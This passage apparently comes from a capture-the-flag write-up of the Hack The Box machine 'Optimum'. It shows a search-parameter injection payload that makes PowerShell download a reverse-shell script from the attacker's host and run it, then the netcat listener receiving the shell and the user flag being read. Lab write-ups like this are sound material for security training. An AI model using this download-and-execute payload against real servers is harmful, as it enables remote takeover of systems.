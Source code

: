 Send the payload with burpsuite and wait for the remote connection.
```
/?search=%00{.exec|C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe iex(new-object net.webclient).downloadString('http://10.10.14.27/Invoke-PowerShellTcp.ps1').}
```
It is important to specify the full path so that to tell which version should `powershell` run with. 

![image](/assets/img/optimum/05.png) 

**Result**
```
┌──(gemstone㉿hashghost)-[~/C7F5/htb/OSCP/Optimum]
└─$ nc -nlvp 9005
listening on [any] 9005 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.202.151] 49209
Windows PowerShell running as user kostas on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>
PS C:\Users\kostas\Desktop> whoami
optimum\kostas
```
**User Flag**
```
PS C:\Users\kostas\Desktop> dir  


    Directory: C:\Users\kostas\Desktop


Mode                LastWriteTime     Length Name                                                                      
----                -------------     ------ ----                                                                      
-a---         18/3/2017   2:11 ??     760320 hfs.exe                                                                   
-ar--         11/4/2023   5:43 ??         34 user.txt                                                                  


PS C:\Users\kostas\Desktop> type user.txt
e5c2e3ff795************************
```
